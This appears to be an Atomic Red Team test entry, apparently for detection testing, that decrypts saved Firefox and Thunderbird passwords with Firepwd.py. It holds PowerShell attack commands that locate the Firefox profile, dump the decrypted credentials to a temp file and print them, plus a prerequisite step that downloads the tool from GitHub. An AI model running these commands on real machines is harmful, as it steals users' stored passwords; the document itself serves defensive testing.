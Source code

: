 <br/>
<br/>

## Atomic Test #8 - Decrypt Mozilla Passwords with Firepwd.py

Firepwd.py is a script that can decrypt Mozilla (Thunderbird, Firefox) passwords.
Upon successful execution, the decrypted credentials will be output to a text file, as well as displayed on screen.

**Supported Platforms:** Windows

**auto_generated_guid:** dc9cd677-c70f-4df5-bd1c-f114af3c2381

#### Inputs:

| Name         | Description                                          | Type   | Default Value                                                                                                                  |
| ------------ | ---------------------------------------------------- | ------ | ------------------------------------------------------------------------------------------------------------------------------ |
| Firepwd_Path | Filepath for Firepwd.py                              | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;Firepwd.py                                                                 |
| Out_Filepath | Filepath to output results to                        | string | $env:temp&#92;T1555.003Test8.txt                                                                                               |
| VS_CMD_Path  | Filepath to Visual Studio Build Tools Command prompt | string | C:&#92;Program Files (x86)&#92;Microsoft Visual Studio&#92;2022&#92;BuildTools&#92;VC&#92;Auxiliary&#92;Build&#92;vcvars64.bat |
| Python_Path  | Filepath to python                                   | string | C:&#92;Program Files&#92;Python310&#92;python.exe                                                                              |

#### Attack Commands: Run with `powershell`!

```powershell
$PasswordDBLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*.default-release\"
cmd /c #{Firepwd_Path} -d $PasswordDBLocation > #{Out_Filepath}
cat #{Out_Filepath}
```

#### Cleanup Commands:

```powershell
Remove-Item -Path "#{Out_Filepath}" -erroraction silentlycontinue
```

#### Dependencies: Run with `powershell`!

##### Description: Firepwd must exist at #{Firepwd_Path}

##### Check Prereq Commands:

```powershell
if (Test-Path "#{Firepwd_Path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/lclevy/firepwd/167eabf3b88d5a7ba8b8bc427283f827b6885982/firepwd.py" -outfile "#{Firepwd_Path}"
```
